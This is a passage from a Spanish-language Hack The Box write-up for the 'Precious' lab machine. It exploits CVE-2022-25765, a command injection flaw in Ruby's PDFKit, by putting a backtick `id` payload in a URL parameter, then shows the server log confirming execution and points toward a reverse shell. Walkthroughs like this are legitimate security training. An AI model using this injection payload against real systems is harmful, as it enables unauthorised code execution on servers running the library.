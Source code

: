 <https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795> 

## CVE 2022-25765

Despues de leer el **P0C** podemos inyectar un comando en la **url** usando el parametro `name` vamos a probar inyectando el comando `id`

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Si inyectamos lo siguiente en la parte de la `url` 

```bash
http://10.10.14.9:8080/?name=%20`id`
```

Vemos que somos el usuario `ruby`

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.189 - - [18/May/2023 19:10:06] "GET /?name=%20uid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 200 -


```

![](/assets/images/htb-writeup-precious/web7.png)

Sabiendo que tenemos una **ejecucion remota de comandos** podemos enviarnos una reverse shell a nuestra maquina de atacante

vamos a dejar el servidor http que ejecutamos con **Python3** corriendo y ademas nos vamos a poner en escucha en el puerto que quieras para ganar acceso

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

Si quieres emplear **python** para ganar acceso o algun otro **oneliner** puedes verlos en [aqui](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
